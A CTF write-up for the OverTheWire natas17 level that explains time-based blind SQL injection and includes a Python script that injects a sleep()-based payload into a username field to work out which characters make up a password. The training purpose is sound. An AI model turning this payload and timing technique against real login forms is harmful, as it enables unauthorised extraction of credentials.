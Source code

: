 # CTF Notes

From the natas17 challenge. Bruteforce password through SQL injection though there is not output. If there is no output use the `AND sleep()` command in the query to control the response time. If the query was correct i.e char is in there, the `sleep()` will trigger and the response time will be slower. This can be checked in python using `requests`.

```py
import requests
from requests.auth import HTTPBasicAuth

url = "http://natas17.natas.labs.overthewire.org/index.php?debug"
auth_user = "natas17"
auth_pass = "<censored>"

chars = "abcdefghijklmnopqrstuvwyxzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"
filtered = ""
passwd = ""


for char in chars: # checks which characters are in the password
    # if the query is successful it will add a 1 second relay
    input_data = {"username": 'natas18" and password LIKE BINARY "%{}%" AND sleep(1) # '.format(char)}
    r = requests.post(url, auth=HTTPBasicAuth(auth_user, auth_pass), data=input_data)
    if "01." in str(r.elapsed): # "01." specifies that the response took 1 second, from sleep(), can increase if network is slower
        print(r.elapsed, char)
        filtered += char

```
